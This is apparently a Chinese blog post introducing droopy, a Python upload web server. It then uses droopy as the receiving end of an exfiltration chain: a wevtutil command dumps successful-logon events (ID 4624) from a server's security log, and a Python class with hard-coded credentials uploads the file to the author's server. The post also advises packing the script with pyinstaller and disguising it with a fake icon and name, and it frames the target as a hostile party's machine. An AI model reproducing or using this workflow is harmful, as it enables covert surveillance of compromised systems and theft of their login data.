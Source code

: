 ```yaml
---
title: droopy
description: droopy
categories:
 - tools
 - python
tags: 
 - python
---
```


python写的一个文件上传功能的Web服务器

[源码](http://stackp.online.fr/wp-content/uploads/droopy)

![1594886013](https://yui77111.github.io/assets/images/article/droopy/1594886013.jpg)

我们用到的参数有-d指定上传路径、-a指定访问401验证账号密码

![1594888077](https://yui77111.github.io/assets/images/article/droopy/1594888077.jpg)

![1594888031](https://yui77111.github.io/assets/images/article/droopy/1594888031.jpg)

### 思路

遇到什么大project的时候，经常被要求要获取服务器的3389登录ip，但有时需要的是长时间监控服务器才能获取最新的登录ip，所以这时候就靠自动化

获取本地登录事件并保存到文本->通过droopy上传到服务器->后续可以加短信、邮件或wechat推送通知

和ftp的区别在于，ftp的账号密码是写在文件里的，对面拿到exe可以逆向拿到你ftp的账号密码，登录上去看到你服务器上的文件，而droopy即使拿到了401账号密码进去后也只有一个上传功能，虽説不能保证后面会不会爆什么安全漏洞但目前来説还没有问题。

### wevtutil获取登录事件

获取事件ID4624并保存到logins.txt里，4624为登录成功日志，多事件ID可用or分隔

```
wevtutil qe Security "/q:*[System [(EventID=4624)]]" /rd:true /f:text > "logins.txt"
```

### python

```python
class myupload():
    def __init__(self,url):
        self.url = url

    def upload(self,upload_file):
        files = {'upfile':(upload_file.split(sep)[-1],open(upload_file,'rb'),'text/plain',{})}
        request('POST',self.url,data=None,files=files,auth=('thomas','thomastom'))
```

### 效果

![1594889003](https://yui77111.github.io/assets/images/article/droopy/1594889003.jpg)

![1594889124](https://yui77111.github.io/assets/images/article/droopy/1594889124.jpg)

### 其他

将写好的.py用pyinstaller打包，打包的时候可以-i加个icon图标，再把名改改伪造伪造。

py打包exe体积太大可以通过虚拟环境内打包解决

```python
#建立虚拟环境
pipenv install
#进入虚拟环境
pipenv shell
#安装模块
pip install 小工具.py里面用到的模块
#打包的模块也要安装
pip install pyinstaller
#开始打包
pyinstaller -Fw E:\test\url_crawler.py
```


